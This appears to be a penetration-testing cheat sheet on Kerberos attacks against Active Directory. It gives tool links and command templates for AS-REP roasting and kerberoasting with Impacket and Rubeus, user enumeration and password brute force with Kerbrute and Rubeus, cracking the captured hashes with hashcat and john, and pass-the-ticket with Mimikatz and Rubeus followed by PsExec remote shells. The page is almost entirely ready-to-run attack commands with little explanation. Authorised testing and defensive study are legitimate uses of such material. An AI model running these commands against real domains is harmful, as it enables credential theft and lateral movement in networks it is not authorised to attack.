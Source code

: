 # Kerberoast

## Tools

**Rubeus:** [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

**Kerbrute:** [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

**Impacket:** [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

## ASREP-Roast

### Impacket

```python
# ASREP check on all domain Users (Requires valid domain credentials)
python2 GetNPUsers.py <Domain>/<User>:<Password> -request -dc-ip <IP> -format <John|Hashcat> | grep "$krb5asrep$"

# ASREP check on a list of domain user (Does not require domain credentials)
python2 GetNPUsers.py <Domain> -usersfile <UserList>  -dc-ip <IP> -format <John|Hashcat> | grep "$krb5asrep$"
```

### Rubeus

```python
# Extract from all domain accounts
.\Rubeus.exe asreproast
.\Rubeus.exe asreproast /format:hashcat /outfile:C:Hashes.txt
```

### Cracking

```bash
# Windows
hashcat64.exe -m 18200 c:Hashes.txt rockyou.txt

# Linux
john --wordlist rockyou.txt Hashes.txt --format=krb5tgs
hashcat -m 18200 -a 3 Hashes.txt rockyou
```

## Brute Force

### Kerbrute

**Download:** [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

```python
./kerbrute userenum <UserList> --dc <IP> --domain <Domain>
```

### Rubeus

```python
# with a list of users
.\Rubeus.exe brute /users:<UserList> /passwords:<Wordlist> /domain:<Domain>

# Check all domain users again password list
.\Rubeus.exe brute /passwords:<Wordlist>
```

## Kerberoasting

### Impacket

```python
GetUserSPNs.py <Domain>/<User>:<Password> -dc-ip <IP> -request
```

### Rubeus

```python
# Kerberoast all users in Domain
.\Rubeus kerberoast

# All Users in OU
.\Rubeus.exe kerberoast /ou:OU=Service_Accounts,DC=Security,DC=local

# Specific users
.\Rubeus.exe kerberoast /user:File_SVC
```

## Pass-The-Ticket

### Mimikatz

```python
# Collect tickets
sekurlsa::tickets /export

# Inject ticket
kerberos::ptt <.kirbi file>

# spawn CMD with the injected ticket
misc::cmd
```

### Rubeus

```python
# Collect tickets
.\Rubeus.exe dump

# Inject ticket
.\Rubeus.exe ptt /ticket:<.kirbi file>
```

### PsExec

```python
# To be used after injecting ticket with either Rubeus or Mimikatz
.\PsExec.exe -accepteula \\<IP> cmd
```

## Silver Ticket

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/silver-ticket" %}

## Golden Ticket

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/golden-ticket" %}
